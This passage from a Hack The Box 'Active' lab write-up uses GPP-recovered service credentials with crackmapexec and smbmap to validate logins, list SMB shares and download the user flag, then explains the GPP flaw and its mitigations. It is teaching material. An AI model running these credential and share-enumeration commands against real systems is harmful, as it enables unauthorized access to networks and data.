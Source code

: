 ![svg_tgs_credentials](GitHubv2/HackTheBox/EASY/Active/screenshots/svg_tgs_credentials.png)

**Credentials retrieved:**  
Username: `SVC_TGS`  
Password: `GPPstillStandingStrong2k18`

### 2.6 Credential Validation

We test the credentials with CrackMapExec:

```bash
crackmapexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
```

![crackmapexec_svg_tgs](GitHubv2/HackTheBox/EASY/Active/screenshots/crackmapexec_svg_tgs.png)

Login successful — the credentials are valid.

### 2.7 Explore Shares with Credentials

With valid credentials, we enumerate shares again:

```bash
crackmapexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --shares
```

![crackmapexec_svg_tgs_shares](GitHubv2/HackTheBox/EASY/Active/screenshots/crackmapexec_svg_tgs_shares.png)

We identify access to the **Users** share. We list its contents:

```bash
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -r Users/SVC_TGS/Desktop/
```

![user_flag_desktop](GitHubv2/HackTheBox/EASY/Active/screenshots/user_flag_desktop.png)

Inside, we find and download the user flag:

```bash
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --download Users/SVC_TGS/Desktop/user.txt
```

![user_flag](GitHubv2/HackTheBox/EASY/Active/screenshots/user_flag.png)

✅ **User flag obtained**

> **Group Policy Preferences (GPP)** is a feature in Active Directory that allowed administrators to set local users and passwords via Group Policy Objects. These credentials were stored in XML files (like `Groups.xml`) under SYSVOL and encrypted using a known AES key published by Microsoft.
> 
> **Impact:**  
> Any domain user can read SYSVOL and decrypt these credentials, leading to lateral movement or privilege escalation.
> 
> **Mitigation:**
> - Stop using GPP to manage passwords.
> - Remove old XML files from SYSVOL.
> - Rotate affected passwords.

---